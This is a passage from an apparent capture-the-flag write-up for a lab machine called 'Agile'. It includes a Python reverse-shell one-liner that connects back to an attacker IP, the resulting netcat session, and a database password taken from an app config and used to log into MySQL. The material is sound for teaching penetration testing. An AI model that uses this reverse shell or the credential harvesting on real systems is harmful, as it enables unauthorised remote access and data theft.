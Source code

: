 Above, we entered a reverse shell taken from [RevShells](https://revshells.com/) into the REPL:

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",3322));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")
```

This gives our shell!:

```bash
$nc -lvnp 3322
Listening on 0.0.0.0 3322
Connection received on 10.10.11.203 41284
(venv) www-data@agile:/app/app$ ls -al
ls -al
total 28
drwxr-xr-x 5 corum runner 4096 Feb  8 16:29 .
drwxr-xr-x 6 root  root   4096 Mar  8 15:30 ..
drwxrwxr-x 3 corum runner 4096 Feb  8 16:29 .pytest_cache
drwxr-xr-x 2 corum runner 4096 Feb  8 16:29 __pycache__
-rw-rw-r-- 1 corum runner   95 Jan 23 21:27 requirements.txt
drwxrwxr-x 9 corum runner 4096 Mar  7 21:55 superpass
-rw-r--r-- 1 corum runner  105 Jan 24 18:08 wsgi.py
(venv) www-data@agile:/app/app$ 
(venv) www-data@agile:/dev/shm$ ls -la /home
ls -la /home
total 20
drwxr-xr-x  5 root      root      4096 Feb  8 16:29 .
drwxr-xr-x 20 root      root      4096 Feb 20 23:29 ..
drwxr-x---  8 corum     corum     4096 Feb  8 16:29 corum
drwxr-x---  2 dev_admin dev_admin 4096 Feb  8 16:29 dev_admin
drwxr-x---  5 edwards   edwards   4096 Mar 19 06:41 edwards
```

Previously, we found the database connection string in the app config:

```json
{"SQL_URI": "mysql+pymysql://superpassuser:dSA6l7q*yIVs$39Ml6ywvgK@localhost/superpass"}"
```

We can connect directly, as `mysql` client is available:

```bash
(venv) www-data@agile:/dev/shm$ mysql -u superpassuser -p
mysql -u superpassuser -p
Enter password: dSA6l7q*yIVs$39Ml6ywvgK

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 2060
Server version: 8.0.32-0ubuntu0.22.04.2 (Ubuntu)
mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| performance_schema |
| superpass          |
+--------------------+
3 rows in set (0.01 sec)

mysql> use superpass
use superpass
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```